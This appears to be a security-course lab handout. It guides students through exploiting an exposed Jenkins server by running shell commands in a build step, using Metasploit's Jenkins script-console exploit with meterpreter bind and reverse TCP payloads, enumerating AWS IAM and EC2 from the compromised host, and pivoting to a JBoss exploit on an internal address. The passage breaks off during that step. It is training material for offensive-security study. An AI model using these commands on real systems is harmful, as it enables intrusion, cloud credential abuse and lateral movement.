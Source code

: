 # Lab 2

**Table of Contents**

- []()
- []()
- []()
- []()

# Title

In this lab, we will be exploiting a popular Build Platform.

*Resources:*

- []()
- []()
- []()
- []()

---

## Exploit Jenking Manually

1. Load `http://52.39.125.179:8080` on your browser.

2. Select `New Item`, enter your student ID under `Item name` and select `Freestyle project`. Click `OK`.

3. Under `Build`, click `Add a build step`, select `Execute shell`. In the `Command` text box enter `cat /etc/passwd` and click `Save`.

4. Select `Build Now`, then click the last `Build History` job and click `Console Output`. What do you see? Would you put this host on the internet as is?

5. Go back to your project and click `Configure` run other commands such as `whoami`, `pwd` and `ps` to familiarize yourself with this host. What flavor of linux is this? What packages are installed?

## Metasploit

1. Install Metasploit.

Download and extract the Metasploit package from the DSO bucket: `dso-public-bucket`

```
$ curl -O https://s3-us-west-2.amazonaws.com/dso-public-bucket/metasploit-framework-master.zip
$ unzip metasploit-framework-master.zip
```

Alternatively clone the Metasploit Git project directly.

```
$ git clone https://github.com/rapid7/metasploit-framework.git
```

2. Run `msfconsole`.

```
$ cd metasploit-framework-master
$ bundle install
$ ./msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.10-dev                         ]
+ -- --=[ 1556 exploits - 902 auxiliary - 268 post        ]
+ -- --=[ 438 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >
```

3. Search for the Jenkins-CI Script-Console Java Execution exploit. You can do this using the `search` keyword.

## Exploit Jenkins

1. Configure the exploit for use.

In the example below we are using TCP port 10001 to create a listener. Please contact the instructor to see which port you should be using.

```
> use exploit/multi/http/jenkins_script_console
> show options
  > set RHOST 52.39.125.179
> set RPORT 8080
> set TARGETURI /
> set target 1
> set payload linux/x86/meterpreter/bind_tcp
> set LPORT 10001
```

2. Exploit the target and run the shell.

```
> exploit
> shell
```

3. Run the AWS CLI to determine if this host has IAM permissions.

```
$ aws iam list-users --region us-west-2
```

4. Since this host does not have IAM privileges, let's find a host that does.

Run the AWS CLI to determine the IP address of another host that may have an overly permissive instance profile/role.

```
$ aws ec2 describe-instances --region us-west-2
```

Is that shot of JSON to the eye? Try filtering the results, like this:

```
aws ec2 describe-instances --region us-west-2 --filters Name=iam-instance-profile.arn,Values=arn:aws:iam::717986480831:instance-profile/dso-overly-permissive
```

Make note of this host's IP address. This is target 2.

Throw the shell into the background by pressing `ctrl-z`, followed by `y` and `ENTER`. Also throw the Meterpreter shell into the background by again pressing `ctrl-z`, followed by `y` and `ENTER`. Then list your sessions.

```
> sessions
```

Make note of the session ID, e.g., `2`.

## Pivot/Penetrate

1. Add a route to pivot to a host that is deeper inside the network (target 2).

E.g.,

```
> route add 10.0.6.0 255.255.255.0 2
```

2. Search for the JBoss DeploymentFileRepository WAR Deployment exploit. You can do this using the `search` keyword.

Configure the exploit.

```
> use exploit/multi/http/jboss_invoke_deploy
> set RHOST 10.0.6.165
> set target 1
> set payload java/meterpreter/reverse_tcp
> set LPORT 10002
```
